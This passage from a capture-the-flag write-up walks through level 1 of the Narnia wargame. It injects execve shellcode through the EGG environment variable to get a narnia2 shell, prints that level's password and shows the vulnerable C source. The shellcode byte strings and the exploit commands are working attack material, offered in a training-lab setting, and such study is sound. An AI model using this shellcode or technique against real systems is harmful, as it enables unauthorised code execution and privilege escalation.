 Seeing as NX is disabled, the program might execute shellcode upon exporting shellcode to the EGG environment variable.

There are many different shellcodes to use, but for the purpose of this exercise I chose the /bin/sh shellcode from [here](https\://www.google.com/url?q=http\://shell-storm.org/shellcode/files/shellcode-827.php&sa=D&source=editors&ust=1653862984600276&usg=AOvVaw3mvMKazajKlAB6SL_TGEYe)[[5]](#ftnt5). However, exporting this shellcode into the EGG environment variable and executing the program proves to not work\:

{% highlight bash %}
narnia1@narnia\:/narnia$ export EGG=$(python -c "print '\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80'")                      
narnia1@narnia\:/narnia$ echo $EGG1Ph//shh/binPS          
             ̀                    
narnia1@narnia\:/narnia$ ./narnia1  
Trying to execute EGG!                  
Segmentation fault                  
{% endhighlight %}

I do not know why this particular shellcode does not work. However, trying a shellcode[[6]](#ftnt6) that executes /bin/bash does work\:

{% highlight bash %}
narnia1@narnia\:/narnia$ export EGG=$(python -c "print '\\x6a\\x0b\\x58\\x99\\x52\\x66\\x68\\x2d\\x70\\x89\\xe1\\x52\\x6a\\x68\\x68\\x2f\\x62\\x61\\x73\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x52\\x51\\x53\\x89\\xe1\\xcd\\x80'")  
narnia1@narnia\:/narnia$ ./narnia1  
Trying to execute EGG!  
bash-4.4$ whoami  
narnia2  
bash-4.4$ cat /etc/narnia_pass/narnia2  
nairiepecu
{% endhighlight %}

### Source Code

{% highlight c %}
#include <stdio.h>  
  
int main(){   int (*ret)()\;   if(getenv("EGG")==NULL){       printf("Give me something to execute at the env-variable EGG\\n")\;       exit(1)\;  
   }   printf("Trying to execute EGG!\\n")\;  
   ret = getenv("EGG")\;  
   ret()\;   return 0\;  
}
{% endhighlight %}

Note how the ret variable is not assigned a buffer. This is why the content of the environment variable was not seen in the ESP register during the analysis in pwndbg.

Narnia 2
--------

Using the credentials obtained for the narnia2 user, we can execute the narnia2 binary.
